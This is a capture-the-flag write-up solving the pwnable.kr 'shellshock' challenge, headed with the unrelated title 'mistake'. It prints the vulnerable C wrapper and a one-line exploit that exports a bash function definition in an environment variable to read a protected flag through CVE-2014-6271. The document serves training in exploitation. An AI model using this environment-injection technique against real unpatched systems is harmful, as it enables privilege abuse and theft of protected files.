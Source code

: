 ![logo](http://www.pwnable.kr/img/shellshock.png)

# mistake
The tenth challenge from pwnable.kr

## Description
Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure :)


ssh shellshock@pwnable.kr -p2222 (pw:guest)

## Solution

```sh
shellshock@ubuntu:~$ ls -la
total 980
drwxr-x---  5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 93 root root             4096 Oct 10 22:56 ..
-r-xr-xr-x  1 root shellshock     959120 Oct 12  2014 bash
d---------  2 root root             4096 Oct 12  2014 .bash_history
-r--r-----  1 root shellshock_pwn     47 Oct 12  2014 flag
dr-xr-xr-x  2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x  2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x  1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--  1 root root              188 Oct 12  2014 shellshock.c
```

We'll need `shellshock` to open up `flag` for us. Seems we have a vulnerable `bash` program involved as well.

Let's open up `shellshock.c`

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

`echo` doesn't have an absolute path, so let's try modifying ENV variables.

```sh
shellshock@ubuntu:~$ export echo="() { cat /home/shellshock/flag; }"
```

### Capturing the Flag

```sh
shellshock@ubuntu:~$ ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
```
